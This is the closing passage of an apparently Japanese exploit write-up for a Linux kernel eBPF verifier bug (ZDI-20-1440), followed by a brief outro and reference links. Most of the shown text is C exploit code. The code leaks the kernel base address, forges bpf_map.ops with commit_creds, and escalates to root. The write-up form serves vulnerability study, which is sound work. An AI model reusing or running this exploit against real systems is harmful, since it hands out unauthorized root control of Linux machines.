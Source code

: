 ```exploit.c
  // setup fake table
  for(int ix=0; ix!=10; ++ix){
    array_update(control_map, ix+2, commit_creds);
  }
  array_update(control_map, 6, kernbase + 0x12B730);  // fd_array_map_delete_elem

  // overwrite bpf_map.ops
  array_update(control_map, 0, 1);
  array_update(control_map, 1, 0);
  trigger_proc(evilwriter);

  // NIRUGIRI
  union bpf_attr lookup_map_attrs = {
    .map_fd = control_map,
    .key = (uint64_t)&zero,
  };
  bpf_(BPF_MAP_LOOKUP_ELEM, &lookup_map_attrs);
  NIRUGIRI();
  printf("[-] press ENTER to die\n");
  WAIT;
}

int main(int argc, char *argv[]) {
  control_map = array_create(0x8, 0x10); // [0] always 1, [1] always 0

  // leak kernbase
  const ulong kernbase = read_rel(0x90) - 0xA12100;
  printf("[+] kernbase: 0x%lx\n", kernbase);

  // leak controlmap's addr
  const ulong controlmap_addr = leak_controlmap();
  printf("[+] controlmap: 0x%lx\n", controlmap_addr);

  // forge bpf_map.ops and do commit_creds(&init_cred)
  ops_NIRUGIRI(controlmap_addr, kernbase);

  return 0; // unreachable
}
```

# アウトロ
最初は権限ゆるすぎてどうなんだろうと思ってたけど、`bpf_map.btf`なしでROOT取る流れを考えるのは楽しかったです。
もうすぐ春ですね。海を見に行きたいです。


# 参考
author's writeup
https://blog.hexrabbit.io/2021/02/07/ZDI-20-1440-writeup/
original 0-day blog
https://www.thezdi.com/blog/2021/1/18/zdi-20-1440-an-incorrect-calculation-bug-in-the-linux-kernel-ebpf-verifier
ニルギリ
https://youtu.be/yvUvamhYPHw
